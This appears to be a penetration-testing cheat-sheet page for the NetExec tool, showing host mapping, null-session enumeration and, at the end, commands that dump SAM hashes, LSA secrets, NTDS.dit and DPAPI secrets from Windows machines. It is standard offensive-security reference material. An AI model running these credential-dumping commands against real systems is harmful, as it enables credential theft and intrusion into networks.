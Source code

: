 # NetExec

{% hint style="info" %}
## Download & Install:

[https://github.com/Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)
{% endhint %}

The general format for using NetExec is as follows:

```bash
clue@machine[/]$ netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

## Map Network Hosts <a href="#map-network-hosts" id="map-network-hosts"></a>

Returns a list of live hosts

```bash
nxc smb 192.168.1.0/24
```

Expected Results:

```bash
SMB         192.168.1.101    445    DC2012A          [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC2012A) (domain:OCEAN) (signing:True) (SMBv1:True)
SMB         192.168.1.102    445    DC2012B          [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC2012B) (domain:EARTH) (signing:True) (SMBv1:True)
SMB         192.168.1.110    445    DC2016A          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC2016A) (domain:OCEAN) (signing:True) (SMBv1:True)
SMB         192.168.1.117    445    WIN10DESK1       [*] WIN10DESK1 x64 (name:WIN10DESK1) (domain:OCEAN) (signing:False) (SMBv1:True)
```

## Enumerate Null Sessions

Check if **Null Session**, also known as Anonymous session, is enabled on the network. Can be very useful on a Domain Controller to enumerate users, groups, password policies, etc.

```bash
nxc smb 10.10.10.161 -u '' -p ''
nxc smb 10.10.10.161 -u '' -p '' --shares
nxc smb 10.10.10.161 -u '' -p '' --pass-pol
nxc smb 10.10.10.161 -u '' -p '' --users
nxc smb 10.10.10.161 -u '' -p '' --groups
```

This can also be achieved with [smbclient.md](../information-gathering/service-enumeration/smbclient.md "mention") or [rpcclient.md](../information-gathering/service-enumeration/rpcclient.md "mention").

```bash
smbclient -N -U "" -L \\10.10.10.161
```

```bash
rpcclient -N -U "" -L \\10.10.10.161
rpcclient $> enumdomusers
user:[bonclay] rid:[0x46e]
user:[zoro] rid:[0x46f]
```

## Credential Dumping

### SAM Hashes Dump

Dumps SAM hashes from the target system after a successful login. You can use `smb` or `winrm` services.

```bash
nxc <smb|winrm> <target> -u <USERNAME> -p <PASSWORD> --sam
```

### LSA Secrets Dump

Dumps LSA secrets from the target system after a successful login. You can use `smb` or `winrm` services.

```bash
nxc <smb|winrm> <target> -u <USERNAME> -p <PASSWORD> --lsa
```

### NTDS File Dump

Dumps the NTDS.dit file from the target Domain Controller after a successful login. You can use either `vss` or `drsuapi` as the method (`drsuapi` is the default). Use the `--user` option to dump only a specific user.

```bash
nxc smb <target> -u <USERNAME> -p <PASSWORD> --ntds [vss,drsupai ]
```

### DPAPI Secrets Dump

Dumps DPAPI secrets from the target machine. You dump cookies with the `cookies` options or use the `nosystem` option not to dump the SYSTEM dpapi (better opsec).

```bash
nxc smb <target> -u <USERNAME> -p <PASSWORD> --dpapi [cookies,nosystem]
```
